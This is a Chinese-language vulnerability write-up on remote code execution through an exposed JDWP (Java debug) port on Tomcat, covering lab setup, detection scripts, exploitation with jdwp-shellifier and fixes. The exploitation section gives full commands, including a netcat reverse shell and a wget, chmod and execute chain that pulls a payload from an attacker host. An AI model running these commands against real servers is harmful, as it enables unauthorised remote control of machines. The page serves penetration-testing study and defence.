

JDWP 调试接口 RCE 漏洞¶
漏洞描述¶
JDWP（Java Debug Wire Protocol，Java 调试线协议）是一个为 Java 调试而设计的通讯交互协议，它定义了调试器（Debugger）和被调试 JVM（Debuggee）进程之间的交互数据的传递格式，它详细完整地定义了请求命令、回应数据和错误代码，保证了调试端和被调试端之间通信通畅。
JDWP 是 JVM 或者类 JVM 的虚拟机都支持的一种协议，通过该协议，Debugger 端和被调试 JVM 之间进行通信，可以获取被调试 JVM 的包括类、对象、线程等信息。
参考阅读：
环境搭建¶
Windows¶
下载 Tomcat 到本地，在 bin\startup.bat 文件中添加如下代码开启 debug 模式：
SET CATALINA_OPTS=-server -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=8000
点击运行 startup.bat ，以 debug 模式启动 Tomcat。
Listening for transport dt_socket at address: 8000，表示 JDWP 服务已经监听在 8000 端口，等待调试器连接。
Linux¶
执行如下命令安装 Tomcat：
# 执行wget命令下载Tomcat安装包
wget http://mirror.bit.edu.cn/apache/tomcat/tomcat-8/v8.5.43/bin/apache-tomcat-8.5.43.tar.gz
# 解压安装包
tar zxvf apache-tomcat-8.5.43.tar.gz
# 将程序安装包复制到指定运行目录下
sudo mv apache-tomcat-8.5.43 /usr/local/tomcat8
启动方式一：
进入 Tomcat 安装目录下的 bin 目录下找到 catalina.sh 文件，在文件开头部分添加如下一行：
CATALINA_OPTS="-Xdebug -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=*:8000"
修改完成后，执行脚本 ./startup.sh 就会以 debug 模式启动 Tomcat。
启动方式二：
进入 Tomcat 的 bin 目录，输入 ./catalina.sh jpda run 或者 ./catalina.sh jpda start 命令以调试模式启动 tomcat。
启动时就会出现如下信息提示：
Listening for transport dt_socket at address: 8000。
注意脚本中默认配置 JDWP 是监听在本地的 8000 端口，修改 JDPA_ADDRESS 的值对外开放此端口，在 JDK9 及以上的版本需要修改为 JDPA_ADDRESS=*:8000 ，在 JDK9 以下版本修改为 JDPA_ADDRESS=8000 即可
漏洞检测¶
有三种常用方式来进行 JDWP 服务探测，原理都是一样的，即向目标端口连接后发送 JDWP-Handshake，如果目标服务直接返回一样的内容则说明是 JDWP 服务。
Nmap¶
扫描会识别到 JDWP 服务，且有对应的 JDK 版本信息。
nmap -sT -sV 192.168.192.1 -p 8000
Telnet¶
使用 Telnet 命令探测，需要马上输入 JDWP-Handshake，然后服务端返回一样的内容，证明是 JDWP 服务。
telnet 192.168.182.130 8000
注意：需要马上输入 JDWP-Handshake，并按下回车，不然马上就会断开。在 Linux 系统下使用 telnet 测试可以，在 Windows 系统下使用 telnet 测试不太行。
Python¶
使用如下脚本扫描，直接连接目标服务器，并向目标发送 JDWP-Handshake，如果能接收到相同内容则说明目标是开启了 JDWP 服务。
import socket
host = "192.168.182.130"
port = 8000
try:
client = socket.socket()
client.connect((host, port))
client.send(b"JDWP-Handshake")
if client.recv(1024) == b"JDWP-Handshake":
print("[*] {}:{} Listening JDWP Service! ".format(host, port))
except Exception as e:
print("[-] Connection failed! ")
finally:
client.close()
漏洞 POC¶
POC1¶
poc1：https://github.com/IOActive/jdwp-shellifier
jdwp-shellifier 是使用 Python2 编写的，该工具通过编写了一个 JDI（JDWP 客户端），以下断点的方式来获取线程上下文从而调用方法执行命令。
该漏洞无回显，可利用 dnslog 进行探测：
python2 jdwp-shellifier.py -t 192.168.3.118 -p 8787 --break-on "java.lang.String.indexof" --cmd "ping xxx.dnslog.cn"
反弹 shell¶
准备反弹 shell 文件，保存为 shell.txt：
nc 192.168.178.129 3333 | /bin/bash | nc 192.168.178.129 4444%
启动 http 服务：
python3 -m http.server 8000
开启监听，需要开启 2 个监听，前面一个输入执行命令，后面一个输出命令执行结果：
nc -lvvp 3333
nc -lvvp 4444
利用 poc1 执行命令，下载 shell、文件可执行权限、执行 shell：
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "wget http://192.168.178.129:8000/shell.txt -O /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "chmod a+x /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "/tmp/shell.sh"
两个监听都收到 shell，一个输入命令，一个输出结果。

POC2¶
poc2：https://github.com/Lz1y/jdwp-shellifier
该脚本是在上面一个漏洞利用脚本的基础上，修改利用方式为通过对 Sleeping 的线程发送单步执行事件，达成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中。
修复建议¶
- 关闭 JDWP 端口，或者 JDWP 端口不对公网开放
- 关闭 Java 的 debug 模式